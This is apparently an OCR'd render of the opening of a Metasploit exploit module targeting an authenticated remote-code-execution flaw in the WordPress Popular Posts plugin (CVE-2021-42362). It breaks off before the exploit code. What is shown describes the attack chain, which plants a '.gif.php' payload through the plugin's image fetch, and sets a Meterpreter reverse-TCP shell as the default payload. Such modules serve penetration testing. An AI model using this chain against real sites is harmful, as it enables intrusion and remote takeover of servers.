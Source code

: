 ## # This module requires Metasploit: https://metasploit.com/download # Current source: https://github.com/rapid7/metasploit-framework ##  class MetasploitModule &lt; Msf::Exploit::Remote   Rank = NormalRanking    prepend Msf::Exploit::Remote::AutoCheck   include Msf::Exploit::FileDropper   include Msf::Exploit::Remote::HttpClient   include Msf::Exploit::Remote::HttpServer   include Msf::Exploit::Remote::HTTP::Wordpress    def initialize(info = {})     super(       update_info(         info,         'Name' => 'Wordpress Popular Posts Authenticated RCE',         'Description' => %q{           This exploit requires Metasploit to have a FQDN and the ability to run a payload web server on port 80, 443, or 8080.           The FQDN must also not resolve to a reserved address (192/172/127/10).  The server must also respond to a HEAD request           for the payload, prior to getting a GET request.           This exploit leverages an authenticated improper input validation in Wordpress plugin Popular Posts &lt;= 5.3.2.           The exploit chain is rather complicated.  Authentication is required and 'gd' for PHP is required on the server.           Then the Popular Post plugin is reconfigured to allow for an arbitrary URL for the post image in the widget.           A post is made, then requests are sent to the post to make it more popular than the previous #1 by 5. Once           the post hits the top 5, and after a 60sec (we wait 90) server cache refresh, the homepage widget is loaded           which triggers the plugin to download the payload from our server. Our payload has a 'GIF' header, and a           double extension ('.gif.php') allowing for arbitrary PHP code to be executed.         },         'License' => MSF_LICENSE,         'Author' => [           'h00die', # msf module           'Simone Cristofaro', # edb           'Jerome Bruandet' # original analysis         ],         'References' => [           [ 'EDB', '50129' ],           [ 'URL', 'https://blog.nintechnet.com/improper-input-validation-fixed-in-wordpress-popular-posts-plugin/' ],           [ 'WPVDB', 'bd4f157c-a3d7-4535-a587-0102ba4e3009' ],           [ 'URL', 'https://plugins.trac.wordpress.org/changeset/2542638' ],           [ 'URL', 'https://github.com/cabrerahector/wordpress-popular-posts/commit/d9b274cf6812eb446e4103cb18f69897ec6fe601' ],           [ 'CVE', '2021-42362' ]         ],         'Platform' => ['php'],         'Stance' => Msf::Exploit::Stance::Aggressive,         'Privileged' => false,         'Arch' => ARCH_PHP,         'Targets' => [           [ 'Automatic Target', {}]         ],         'DisclosureDate' => '2021-06-11',         'DefaultTarget' => 0,         'DefaultOptions' => {           'PAYLOAD' => 'php/meterpreter/reverse_tcp',           'WfsDelay' => 3000 # 50 minutes, other visitors to the site may trigger         },         'Notes' => {           'Stability' => [ CRASH_SAFE ],           'SideEffects' => [ ARTIFACTS_ON_DISK, IOC_IN_LOGS, CONFIG_CHANGES ],           'Reliability' => [ REPEATABLE_SESSION ]         }       )     )      register_options